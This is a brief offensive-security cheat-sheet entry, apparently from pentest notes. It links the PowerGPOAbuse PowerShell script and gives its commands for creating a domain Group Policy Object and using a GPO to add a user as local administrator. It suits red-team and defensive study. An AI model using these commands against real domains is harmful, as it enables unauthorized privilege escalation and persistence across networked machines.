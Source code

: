 ### Source
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1  

### Create new gpo
```
New-DomainGPO -DisplayName <gpoName> -Domain <domain>
```

### Use gpo to add new admin
```
Add-LocalAdmin -GPOIdentity '<gpo>' -Member <user> -Domain <domain>
```

